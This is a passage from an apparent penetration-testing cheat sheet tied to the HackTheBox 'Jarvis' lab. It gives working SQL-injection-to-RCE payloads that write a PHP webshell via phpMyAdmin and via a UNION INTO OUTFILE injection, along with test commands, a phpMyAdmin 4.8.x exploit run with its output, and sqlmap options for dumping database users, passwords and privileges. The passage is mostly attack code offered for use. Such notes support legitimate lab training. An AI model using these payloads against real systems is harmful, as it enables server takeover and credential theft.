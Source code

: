 	Create_tmp_table_priv:Y
	Lock_tables_priv:Y
	Execute_priv:Y
	Repl_slave_priv:Y
	Repl_client_priv:Y
	```

# SQLi2RCE
- Refer to [HackTheBox Jarvis](https://yufongg.github.io/posts/Jarvis/)
## Insert Webshell - phpmyadmin
1. Proceed to `phpmyadmin`, login,  `SQL -> Insert Webshell`
	```
	SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/shell.php"
	```
2. Test shell
	```
	?cmd=id;whoami
	```
## Insert Webshell - Direct
1. Insert webshell directly
	```
	# Payload
	-1+UNION+SELECT+1,"<?php+system($_GET['cmd'])?>",3,4,5,6,7+INTO+OUTFILE+"/var/www/html/shell.php"
	```
2. Test shell
	```
	?cmd=id;whoami
	```

## phpmyadmin 4.8.x
```
┌──(root💀kali)-[~/htb/jarvis/10.10.10.143/exploit]
└─# python 50457.py jarvis.htb 80 /phpmyadmin DBadmin imissyou 'whoami;id'
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



# SQLMAP 
## Internal Data
- Get internal data
	```
	sqlmap -r sqli.txt --output-dir=$(pwd)/sqlmap -p username --<option>
	--current-user #Get current user
	--is-dba #Check if current user is Admin
	--hostname #Get hostname
	--users #Get usernames od DB
	--passwords #Get passwords of users in DB
	--privileges #Get privileges
	